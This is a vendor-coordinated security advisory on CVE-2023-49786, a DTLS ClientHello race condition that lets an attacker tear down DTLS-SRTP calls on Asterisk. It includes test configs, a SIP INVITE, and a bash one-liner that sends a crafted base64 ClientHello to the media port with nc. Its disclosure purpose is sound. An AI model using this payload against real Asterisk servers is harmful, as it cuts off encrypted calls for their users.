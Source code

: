 # Asterisk susceptible to Denial of Service via DTLS Hello packets during call initiation

- Fixed versions: 18.20.1, 20.5.1, 21.0.1,18.9-cert6
- Enable Security Advisory: https://github.com/EnableSecurity/advisories/tree/master/ES2023-01-asterisk-dtls-hello-race
- Vendor Security Advisory: https://github.com/asterisk/asterisk/security/advisories/GHSA-hxj9-xwr8-w8pq
- Other references: CVE-2023-49786
- Tested vulnerable versions: 20.1.0
- Timeline:
	- Report date: 2023-09-27
	- Triaged: 2023-09-27
	- Fix provided for testing: 2023-11-09
	- Vendor release with fix: 2023-12-14
	- Enable Security advisory: 2023-12-15

## TL;DR

When handling DTLS-SRTP for media setup, Asterisk is susceptible to Denial of Service due to a race condition in the hello handshake phase of the DTLS protocol. This attack can be done continuously, thus denying new DTLS-SRTP encrypted calls during the attack.

## Description

Our research has shown that key establishment for Secure Real-time Transport Protocol (SRTP) using Datagram Transport Layer Security Extension (DTLS)[^1] is susceptible to a Denial of Service attack due to a race condition. If an attacker manages to send a ClientHello DTLS message with an invalid CipherSuite (such as `TLS_NULL_WITH_NULL_NULL`) to the port on the Asterisk server that is expecting packets from the caller, a DTLS error is generated. This results in the media session being torn down, which is followed by teardown at signaling (SIP) level too.

This behavior was tested against Asterisk version 20.1.0, which was found to be vulnerable to this issue.

The following sequence diagram shows the normal flow (i.e. no attack) involving SIP, STUN and DTLS messages between a UAC (the Caller) and an Asterisk server capable of handling WebRTC calls.

![Diagram showing a call setup against Asterisk that uses SIP, STUN and DTLS](resources/valid.png)

In a controlled experiment, it was observed that when the Attacker sent a DTLS ClientHello to Asterisk's media port from a different IP and port, Asterisk responded by sending a DTLS Alert to the Caller. Additionally, Asterisk terminated the SIP call by sending a BYE message to the Caller.

![Diagram showing a call setup against Asterisk that fails due to an attacker controlled DTLS ClientHello](resources/dos.png)

During a real attack, the attacker would spray a vulnerable Asterisk server with DTLS ClientHello messages. The attacker would typically target the range of UDP ports allocated for RTP. When the ClientHello message from the Attacker wins the race against an expected ClientHello from the Caller, the call terminates, resulting in Denial of Service.

## Impact

Abuse of this vulnerability may lead to a massive Denial of Service on vulnerable Asterisk servers for calls that rely on DTLS-SRTP.

## How to reproduce the issue

1. Prepare an Asterisk server with an extension configured to handle WebRTC; this may involve the following `pjsip.conf` and `extensions.conf` configuration updates:

    `pjsip.conf`
    ```ini
	[transport-tls-nat]
	type = transport
	protocol = wss
	bind = 172.17.0.2

	[webrtc_client]
	type=aor
	max_contacts=5
	remove_existing=yes

	[webrtc_client]
	type=auth
	auth_type=userpass
	username=3456
	password=3456

	[3456]
	type=endpoint
	aors=webrtc_client
	auth=webrtc_client
	dtls_auto_generate_cert=yes
	webrtc=yes
	context=default
	disallow=all
	allow=opus,ulaw
	```

	`extensions.conf`
	```ini
	[globals]

	[default]
	exten = _XXXX,1,Verbose(1, "User ${CALLERID(num)} dialed ${EXTEN}.")
		same => n,Playback(demo-congrats)
		same => n,Hangup()
	```
1. Send an INVITE message to the target server with WebRTC SDP:

    ```default
	INVITE sip:1000@192.168.1.202 SIP/2.0
	Via: SIP/2.0/WSS 192.168.1.202:36742;rport=36742;branch=z9hG4bK-4RHtimOzaIkHeUDU
	Max-Forwards: 70
	From: <sip:3456@192.168.1.202>;tag=cnbsc3nNX2ydugl4
	To: <sip:1000@192.168.1.202>
	Contact: <sip:3456@192.168.1.202>
	Call-ID: VaglTzNRBSuvPPdw
	CSeq: 5 INVITE
	Content-Type: application/sdp
	Content-Length: 563

	v=0
	o=- 1695296401 1695296401 IN IP4 192.168.1.202
	s=-
	t=0 0
	c=IN IP4 192.168.1.202
	m=audio 36866 UDP/TLS/RTP/SAVPF 0 8 101
	a=setup:active
	a=fingerprint:sha-256 49:05:98:B2:15:43:1C:9C:4F:29:07:60:F8:63:77:16:80:F9:44:C0:97:8E:E5:48:D6:71:B4:03:10:85:D6:E3
	a=rtpmap:0 PCMU/8000/1
	a=rtpmap:8 PCMA/8000/1
	a=rtpmap:101 telephone-event/8000
	a=ice-ufrag:IOZyOSQkVywevryI
	a=ice-pwd:UQUtRMZKFERnmZqQdaggFzJBhcWVxabr
	a=candidate:6249488300 1 udp 2130706431 192.168.1.202 36866 typ host generation 0
	a=end-of-candidates
	a=rtcp-mux
	a=rtcprsize
	a=sendrecv

	```
1. Note Asterisk's media port and IP values, which will be used as the `<asterisk-ip>` and `<media-port>` parameters by the Attacker
1. When the call has been established, send a STUN binding request which has the appropriate Username, Message-Integrity and  Ice-Controlled properties
1. When the Binding Success Response message is received, send a DTLS ClientHello message from a (attacker-controlled) host, which is different from the Caller but has network access to the Asterisk server

    ```bash
	CLIENT_HELLO="Fv7/AAAAAAAAAAAAfAEAAHAAAAAAAAAAcP79AAA" 
	CLIENT_HELLO="${CLIENT_HELLO}AAG4HCVaUNVbYVmxuqdn2WyCgtTijhZ+WheP/+H"
	CLIENT_HELLO="${CLIENT_HELLO}4AAAACAAABAABEABcAAP8BAAEAAAoACAAGAB0AF"
	CLIENT_HELLO="${CLIENT_HELLO}wAYAAsAAgEAACMAAAANABQAEgQDCAQEAQUDCAUF"
	CLIENT_HELLO="${CLIENT_HELLO}AQgGBgECAQAOAAkABgABAAgABwA="
	echo -n "${CLIENT_HELLO}" | base64 --decode | nc -u <asterisk-ip> <media-port>
	```
1. Observe that the Caller receives a DTLS Alert message and a SIP BYE message on its signaling channel

Note that the above steps are used to reliably reproduce the vulnerability. In the case of a real attack, the attacker simply has to spray the Asterisk server with DTLS messages.


## Solution and recommendations

To address this vulnerability, upgrade Asterisk to the latest version which includes the security fix. The solution implemented is to drop all packets from addresses that have not been validated by an ICE check.

## About Enable Security

[Enable Security](https://www.enablesecurity.com) develops offensive security tools and provides quality penetration testing to help protect your real-time communications systems against attack.

## Disclaimer

The information in the advisory is believed to be accurate at the time of publishing based on currently available information. Use of the information constitutes acceptance for use in an AS IS condition. There are no warranties with regard to this information. Neither the author nor the publisher accepts any liability for any direct, indirect, or consequential loss or damage arising from use of, or reliance on, this information.

## Disclosure policy

This report is subject to Enable Security's vulnerability disclosure policy which can be found at <https://github.com/EnableSecurity/Vulnerability-Disclosure-Policy>.

[^1]: Datagram Transport Layer Security (DTLS) Extension to Establish Keys for the Secure Real-time Transport Protocol (SRTP) https://datatracker.ietf.org/doc/html/rfc5764
